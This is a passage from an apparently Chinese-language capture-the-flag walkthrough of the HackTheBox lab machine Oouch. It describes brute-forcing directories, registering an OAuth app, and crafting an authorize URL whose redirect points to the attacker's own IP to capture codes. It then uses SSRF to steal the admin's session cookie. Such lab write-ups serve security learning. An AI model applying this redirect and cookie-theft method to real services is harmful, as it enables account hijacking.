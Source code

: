 继续在 application 目录下继续爆破... 过一段时间获得了 register 页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3LJhWOkib9bdw9onIGCThogB0cdFXEp0ica50cSFknfVThDaoddKVqOUw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3LJhWOkib9bdw9onIGCThogB0cdFXEp0ica50cSFknfVThDaoddKVqOUw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3LJhWOkib9bdw9onIGCThogB0cdFXEp0ica50cSFknfVThDaoddKVqOUw/640?wx_fmt=png)

登录即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3vphXpBQbhCIhfLAeUSYxOdkAFsUiaub5eBGO4vuIZrYhfYBNn4XM3yA/640?wx_fmt=png)

登录后该页面是注册一个应用程序的页面...

理下思路：

```
1、我利用develop进入了注册页面...
2、需要找到/api/get_userAPI并使用它来获取用户数据...
3、提示/oauth/authorize，该方法在OAuth文章中提示POST请求，现在支持GET，应该是属于POST链接进行访问获取..
4、最终会找到qtc的SSH密钥，将使用它来获取shell...
```

开始.... 注册了 authorization code，url 填写本地 kali 端口和 IP...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3vmq3ouIoyHc1vsRtFibIRvUBb37UJ82nJnQicooeCr4FxRFLxBP7krBg/640?wx_fmt=png)

成功创建，获得 Client id 和 Client type 值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3Mnwb4Zz4w81ItibJjVzNKFHSEF4R0FLDPSKY2t3us3AzTu8MkjpfeicA/640?wx_fmt=png)

```
https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-auth-code-flow
```

该文章前面也贴过链接了，这里在提示下...

开始利用把... 文章讲得很详细了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3Sib9lsbCqDbyw0UVlRxURqXEEuVSTlusufb17QD9ZOGWCbBLvfRLw4g/640?wx_fmt=png)

```
http://authorization.oouch.htb:8000/oauth/authorize?client_id=e31ocSko9m7bkplpOTuDYkAp4gOB7lkH44xOE3Sn&client_secret= QKbOgjiR2FFc8yINVt3kqjLSxM2dEcaI5U4L9rYGUUQFQhSJn3cQhKBS2AnsCJ6KWe7su2E46CYx7RLyINu4GM6e4fzFpAweG2vzt4Q6bdx5pFlEYtCOQEu4MTsXwHAD&response_type=code&redirect_uri=http://10.10.14.12:80/&grant_type=authorization_code
```

访问点击 Authorize，在本地 NC 中成功返回了需要的值... 非常好

下一步就是利用 SSRF 从授权子域中窃取 QTC 的 Cookie...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n39UtZlrdXt5qSw4mpsRVoe0LVdxTtMaJGMAqvxyBROVY1RzdpZWVp3A/640?wx_fmt=png)

通过测试有一个正常工作的 appurl，它将 req 重定向到我的本地端口 80，可以使用 SSRF 执行该请求，并且请求返回到我的终端，就可以获得登录的管理员帐户的 cookie...

发送了链接，并在终端上得到了 cookie....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3Bg6pCgxA1SeiazYyNwibiaHmKNOicXpTC8gS3ibQsXqLI0OQpNIPEpVicqPQ/640?wx_fmt=png)

然后修改 cookie 即可...（这里可以下载 cookie Editor 或者在调试器中更改即可)

